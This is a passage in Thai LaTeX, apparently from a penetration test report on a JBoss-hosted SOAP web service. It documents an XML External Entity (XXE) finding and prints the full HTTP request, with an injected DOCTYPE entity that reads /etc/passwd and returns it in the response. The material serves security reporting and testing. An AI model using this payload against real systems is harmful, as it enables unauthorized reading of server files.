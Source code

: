  \begin{figure}[h]
	\centering
	\texttt{[image: jbosshome.png]}
	\caption{หน้าตั้งต้นของ JBoss Web Server EAP 7}
	\label{Fig:jbosshome.png}
\end{figure}

\subsection{XML External Entities (XXE)}

ผู้ทดสอบระบบสามารถใส่ XML Entities ที่สามารถใช้เรียก External Resource เข้าไปยัง HTTP Request เพื่อให้ตัว XML Parser นั้น Include ตัว External Resource ที่เราต้องการ (ในที่นี้คือไฟล์ /etc/passwd ที่เก็บรายชื่อ User ทั้งหมดในระบบ) แล้วส่งข้อมูลนั้นกลับมาผ่าน HTTP Response ซึ่งด้านล่างคือตัวอย่าง Request ที่ใช้ Exploit

\begin{lstlisting}[numbers=none] 
POST /wsgw/services/[REDACTED]SecureService HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
SOAPAction: urn:MSG
Content-Type: text/xml;charset=UTF-8
Host: [REDACTED]
Content-Length: 7973

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://[REDACTED]/webservice">
<soapenv:Header/>
<soapenv:Body>
<web:MSG>
<web:[REDACTED]><![CDATA[

<@\textcolor{red}{<!DOCTYPE doc [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>}@>

<Service value="Export">
<CorpName>[REDACTED]</CorpName>
<CorpId>&xxe;</CorpId>
<MessageType>14</MessageType>
<ReqUId>SECTEST\_20190916008</ReqUId>
<Data>
[...]  
</Data>
</Service>
]]></web:[REDACTED]>
</web:MSG>
</soapenv:Body>
</soapenv:Envelope>
\end{lstlisting}

และผลลัพธ์ที่ได้คือข้อมูลภายในไฟล์ /etc/passwd

